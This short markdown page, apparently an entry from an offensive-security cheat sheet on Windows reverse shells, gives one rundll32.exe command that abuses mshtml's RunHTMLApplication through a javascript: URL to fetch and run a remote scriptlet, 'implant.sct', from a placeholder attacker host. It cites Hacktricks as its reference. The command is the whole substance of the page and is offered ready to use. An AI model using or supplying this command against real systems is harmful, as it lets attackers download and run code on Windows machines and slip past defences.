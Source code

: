 # Rundll32

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http[s]://<attacker_IP>/implant.sct");window.close();
```

---
## References

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/windows)
